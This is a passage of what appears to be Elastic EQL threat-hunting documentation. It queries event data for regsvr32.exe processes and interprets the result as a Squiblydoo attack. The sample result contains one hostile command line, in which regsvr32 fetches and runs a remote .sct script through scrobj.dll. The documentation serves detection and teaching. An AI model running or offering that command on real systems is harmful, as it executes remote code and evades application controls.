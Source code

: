 
## Check for command line artifacts [eql-ex-check-for-command-line-artifacts]

`regsvr32.exe` processes were associated with 143 events. But how was `regsvr32.exe` first called? And who called it? `regsvr32.exe` is a command-line utility. Narrow your results to processes where the command line was used:

```console
GET /my-data-stream/_eql/search
{
  "query": """
    process where process.name == "regsvr32.exe" and process.command_line.keyword != null
  """
}
```

The query matches one event with an `event.type` of `creation`, indicating the start of a `regsvr32.exe` process. Based on the event’s `process.command_line` value, `regsvr32.exe` used `scrobj.dll` to register a script, `RegSvr32.sct`. This fits the behavior of a Squiblydoo attack.

```console-result
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": ".ds-my-data-stream-2099.12.07-000001",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
```
